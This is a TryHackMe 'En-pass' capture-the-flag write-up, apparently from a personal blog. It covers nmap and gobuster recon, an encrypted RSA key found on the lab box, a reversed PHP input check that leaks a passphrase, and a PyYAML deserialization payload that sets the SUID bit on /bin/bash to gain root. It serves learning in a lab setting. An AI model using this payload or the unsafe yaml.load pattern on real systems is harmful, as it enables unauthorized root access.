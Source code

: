 ```yaml
---
layout: post
title:  "TryHackMe En-pass writeup"
date:   2020-02-15 12:59:36 +0200
categories: writeup tryhackme
---
```


> Think-out-of-the-box

```
nmap -sC -sV -p- 10.10.23.229                                                                                                      255 ⨯
Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-11 19:17 EET
Nmap scan report for 10.10.23.229
Host is up (0.054s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:bf:6b:1e:93:71:7c:99:04:59:d3:8d:81:04:af:46 (RSA)
|   256 40:fd:0c:fc:0b:a8:f5:2d:b1:2e:34:81:e5:c7:a5:91 (ECDSA)
|_  256 7b:39:97:f0:6c:8a:ba:38:5f:48:7b:cc:da:72:a8:44 (ED25519)
8001/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: En-Pass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.23.229:8001 -x php,txt,html -t 40 dir       1 ⨯
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.23.229:8001
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2021/02/11 19:18:31 Starting gobuster
===============================================================
/web (Status: 301)
/index.html (Status: 200)
/reg.php (Status: 200)
/403.php (Status: 403)
/zip (Status: 301)
/server-status (Status: 403)
===============================================================
2021/02/11 19:38:53 Finished
===============================================================
```

First question path: /web/resources/infoseek/configure/key

there is a RSA private key:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,3A3DBCAED659E70F7293FA98DB8C1802

V0Z7T9g2JZvMMhiZ6JzYWaWo8hubQhVIu3AcrxJZqFD0o2FW1K0bHGLbK8P+SaAc
...
...
...
iU5caghFrCuuhCagiwYr+qeKM3BwMUBPeUXVWTCVmFkA7jR86XTMfjkD1vgDFj/8
-----END RSA PRIVATE KEY-----
```


reg.php source code reveals:

```php
<?php
if($_SERVER["REQUEST_METHOD"] == "POST"){
   $title = $_POST["title"];
   if (!preg_match('/[a-zA-Z0-9]/i' , $title )){        
          $val = explode(",",$title);
          $sum = 0;
          for($i = 0 ; $i < 9; $i++){
                if ( (strlen($val[0]) == 2) and (strlen($val[8]) ==  3 ))  {
                    if ( $val[5] !=$val[8]  and $val[3]!=$val[7] )             
                        $sum = $sum+ (bool)$val[$i]."<br>"; 
                }        
          }
          if ( ($sum) == 9 ){ 
              echo $result;//do not worry you'll get what you need.
              echo " Congo You Got It !! Nice ";
            }
                    else{
                      echo "  Try Try!!";
                    }
          }
          else{
            echo "  Try Again!! ";
          }     
  }
?>
```

deciphering the code: title POST parameter. First may not start with letter or number. Let's make a test code and figure out a string that passes validation.


```php=
<?php

$title = "!!,!,!,!!,!,!!,!,!,!!!,!";

$val = explode(",",$title);

$sum = 0;
 
if (!preg_match('/[a-zA-Z0-9]/i' , $title )){
    for($i = 0 ; $i < 9; $i++){
        if ( (strlen($val[0]) == 2) and (strlen($val[8]) ==  3 ))  {
            if ( $val[5] !=$val[8]  and $val[3]!=$val[7] ) 
                $sum = $sum+ (bool)$val[$i]."<br>"; 
        }
        if ( ($sum) == 9 ){ 
                  echo $result;//do not worry you'll get what you need.
                  echo " Congo You Got It !! Nice ";
                }
    }
} else {
    echo "This kills the crab.";
}
?>
```
running this code at https://www.tehplayground.com/DxYds2xwcIFeapPd seems to produce a passing title string. Entering it to the input in reg.php there is a reply:

`Nice. Password : cimihan_are_you_here?`

It's the passphrase for the public key. Now need to figure out the username to login with SSH. 

## Zip files

There are zipfiles in /zip which contain sadman but not the user we seek.

```bash=
for i in {0..100}
do
  wget -q http://10.10.23.229:8001/zip/a$i.zip
  unzip -o -qq a$i.zip
  cat a
  rm a$i.zip a
done

```
a0.zip in a.zip has different md5sum from all other zip files.

```
cmp -l a0.zip a50.zip | gawk '{printf "%08X %02X %02X\n", $1, strtonum(0$2), strtonum(0$3)}'                                         1 ⨯
00000029 FA FE
```

## Privilege escalation

/opt/scripts/file.py:
```python=
#!/usr/bin/python
import yaml


class Execute():
        def __init__(self,file_name ="/tmp/file.yml"):
                self.file_name = file_name
                self.read_file = open(file_name ,"r")

        def run(self):
                return self.read_file.read()

data  = yaml.load(Execute().run())
```

exploit from here: https://hackmd.io/@harrier/uiuctf20


```
- !!python/object/apply:os.system ["chmod +s /bin/bash"]
```


Learned new tool: https://github.com/DominicBreuker/pspy
